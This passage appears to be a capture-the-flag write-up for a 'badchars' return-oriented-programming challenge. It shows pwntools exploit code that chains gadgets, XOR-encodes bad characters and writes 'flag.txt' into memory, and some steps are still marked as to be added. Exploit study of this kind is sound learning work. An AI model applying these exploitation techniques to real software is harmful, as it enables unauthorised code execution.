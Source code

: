 ```python
#   1. pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
#   2. r12 = encoded string, r13 = bss_addr
#   3. mov qword ptr [r13], r12 ; ret

payload += pop_r12_r15               # Gadget to load r12–r15
payload += xoredstr                  # r12 = encoded "flag.txt"
payload += p64(bss_addr)             # r13 = destination address (.bss)
payload += p64(0xdeadbeefdeadbeef)   # r14 = junk
payload += p64(0xdeadbeefdeadbeef)   # r15 = junk
payload += mov                       # *r13 = r12 (write to memory)

# --------------------------------------------------
# Step 6: [To be added] XOR specific bytes in memory to decode back to original
#   - Use xor byte ptr [r15], r14b to fix only bytes affected by badchars

# --------------------------------------------------
# Step 7: [To be added] Call print_file with .bss address as argument

# --------------------------------------------------
# Step 8: Send payload and interact with the process
io.recvuntil(b'> ')
io.sendline(payload)
io.interactive()
```

Finally implement inversion and add `pop_rdi` also.

```python
from pwn import *

# --------------------------------------------------
# Step 1: Define target binary and start the process
elf = context.binary = ELF("badchars")
rop = ROP(elf)
io = process(elf.path)

# --------------------------------------------------
# Step 2: Define bad characters and helper function

# List of bad characters to avoid in the payload
badchars = ['x', 'g', 'a', '.']

# Function: XORs bad characters in a string with a given key
#   - Returns the XORed string and list of indices where XOR was applied
def xor_string(string, key):
    xor_indxs = []
    output = ""
    for indx, char in enumerate(string):
        if char in badchars:
            nchar = chr(ord(char) ^ key) # `chr` convers integer ASCII back to character and `ord` converts character to its ASCII.
            output += nchar
            xor_indxs.append(indx)
        else:
            output += char
    return bytes(output.encode('latin')), xor_indxs

# --------------------------------------------------
# Step 3: Define useful gadgets and memory locations

# Gadget: pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
#   - Used to set r12 = string, r13 = destination, r14/r15 = junk or used later
pop_r12_r15 = p64(0x40069c)

```